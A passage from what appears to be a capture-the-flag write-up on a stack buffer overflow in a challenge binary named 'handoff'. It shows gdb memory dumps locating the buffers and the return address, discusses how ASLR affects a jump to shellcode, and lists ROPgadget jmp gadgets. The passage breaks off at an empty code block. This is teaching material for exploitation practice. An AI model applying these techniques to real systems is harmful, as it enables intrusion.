 ```
0x7fffffffd8e0:	0x4141414141414141	0x4242424242424242
0x7fffffffd8f0:	0x4343434343434343	0x4444444444444444
0x7fffffffd900:	0x4545454545454545	0x000000000000000a
...
0x7fffffffdbb0:	0x46464646ffffdbd0	0x000000010000000a
0x7fffffffdbc0:	0x00007fffffffdbd0	0x000000000040143f
0x7fffffffdbd0:	0x0000000000000001	0x00007ffff7dd5d68
```
Based on this information the `name` char array of the first entry starts at `0x7fffffffd8e0`, the `msg` char array of the first entry starts at `0x7fffffffd8e8`, and the `feedback` char array starts at `0x7fffffffdbb4`.
Also, based on this following disassembly of the main function, it is clear that the value stored at `0x7fffffffdbc8` is the return address of the `vuln` function.
```
000000000040140f <main>:
  40140f:	f3 0f 1e fa          	endbr64
  401413:	55                   	push   %rbp
  401414:	48 89 e5             	mov    %rsp,%rbp
  401417:	48 8b 05 42 2c 00 00 	mov    0x2c42(%rip),%rax        # 404060 <stdout@GLIBC_2.2.5>
  40141e:	b9 00 00 00 00       	mov    $0x0,%ecx
  401423:	ba 02 00 00 00       	mov    $0x2,%edx
  401428:	be 00 00 00 00       	mov    $0x0,%esi
  40142d:	48 89 c7             	mov    %rax,%rdi
  401430:	e8 ab fc ff ff       	call   4010e0 <setvbuf@plt>
  401435:	b8 00 00 00 00       	mov    $0x0,%eax
  40143a:	e8 ea fd ff ff       	call   401229 <vuln>
  40143f:	b8 00 00 00 00       	mov    $0x0,%eax
  401444:	5d                   	pop    %rbp
  401445:	c3                   	ret
  401446:	66 2e 0f 1f 84 00 00 	cs nopw 0x0(%rax,%rax,1)
  40144d:	00 00 00 
```
### Jumping to Shellcode
Since ASLR (Address Space Layout Randomization) is enabled, we cannot overflow the feedback buffer and modify the return address to the address of the shellcode.

We can try using a ROP gadget to perform this task. 
```
└─$ ROPgadget --binary=handoff | grep jmp
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x00000000004012f8 : add dword ptr [rbp - 4], 1 ; jmp 0x401249
0x0000000000401085 : add eax, 0xf2000000 ; jmp 0x401020
0x00000000004011f3 : cli ; jmp 0x401180
0x00000000004011f0 : endbr64 ; jmp 0x401180
0x0000000000401165 : je 0x401170 ; mov edi, 0x404060 ; jmp rax
0x00000000004011a7 : je 0x4011b0 ; mov edi, 0x404060 ; jmp rax
0x000000000040103a : jmp 0x401020
0x00000000004011f4 : jmp 0x401180
0x00000000004012fc : jmp 0x401249
0x00000000004012a5 : jmp 0x401407
0x00000000004013f1 : jmp 0x40140c
0x000000000040100b : jmp 0x4840103f
0x000000000040116c : jmp rax
0x00000000004013ed : mov byte ptr [rbp - 5], 0 ; jmp 0x40140c
0x0000000000401167 : mov edi, 0x404060 ; jmp rax
0x00000000004011ec : nop dword ptr [rax] ; endbr64 ; jmp 0x401180
0x0000000000401166 : or dword ptr [rdi + 0x404060], edi ; jmp rax
0x0000000000401163 : test eax, eax ; je 0x401170 ; mov edi, 0x404060 ; jmp rax
0x00000000004011a5 : test eax, eax ; je 0x4011b0 ; mov edi, 0x404060 ; jmp rax
```
There are several gadgets here that use the jmp instruction. One stood out to me as I remembered something I saw while debugging in gdb:
```
```